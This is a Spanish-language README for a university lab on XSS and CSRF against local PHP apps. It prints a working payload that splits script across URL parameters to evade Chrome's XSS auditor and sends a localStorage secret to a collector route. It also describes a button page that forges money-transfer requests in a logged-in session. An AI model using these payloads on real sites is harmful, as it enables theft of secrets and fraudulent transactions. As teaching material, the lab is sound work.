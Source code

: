 # taller_xss_csfr 2016_1

El objetivo de este laboratorio era probar las vulnerabilidades de xss y csfr y explotarlas mediante una prueba de concepto.
Para usar este repositorio es necesario PHP y un sistema unix debido a que se usa `/tmp`  como path para guardar información.

## XSS

Para este ataque aprovecharemos una aplicación que use múltiples parámetros `$_GET` con el fin de saltar el auditor de 
código XSS de chrome, dividiendo el script en diferentes parametros de la URL, en este caso el payload usado fue:

    http://localhost/xss/?nombre=<script>void("&apellido=");document.write("<img src='http://localhost/token/?token="%2BlocalStorage.getItem('misecreto')%2B"'>");</script>

el cual genera el código javascript:

`void("&apellido=");document.write("<img src='http://localhost/token/?token="+localStorage.getItem('misecreto')+"'>");`

el cual basicamente le dice al navegador que inserte una imagen que apunta a `http://localhost/token/?token=XXXXXXX`, debido a que la naturaleza del navegador cuando recibe
la orden de colocar una imagen es generar un request por el metodo `GET` a la url que se encuentra en el atributo `src` el cual tiene el secreto guardado en el localStorage, entonces `/token/` se encarga de recibir esta información y escribirla en `/tmp/tokens.txt`.

## CSFR

Para este ataque aprovecharemos `$_SESSION` en php y la ejecución de un request en javascript que nos genere un llamado a una página de transacciones donde el usuario se encuentre logueado.

Para el ejemplo se crearon 3 rutas: 

`/csfr/login`
Esta ruta evalúa el login, que en este caso es `hola:mundo`

`/csfr/form`
Esta ruta nos permite hacer transacciones a usuarios mediante un formulario que tiene un usuario y cantidad a transferir

`/csfr/transfer`
Esta ruta recibe el formulario anterior verifica la sesión y procede a escribir la transacción en `/tmp/transferencias.txt`

el ataque se encuentra en la ruta `/csfr/` y en esta se encuentra una página con un botón, cuyo evento principal es realizar un petición via `POST` a `/csfr/transfer` con los parametros del atacante (nombre de usuario y cantidad a transferir), si el usuario hace click en este botón y se encuentra logueado en la sesión válida de PHP, la transferencia será realizada cada vez que se presione este botón.








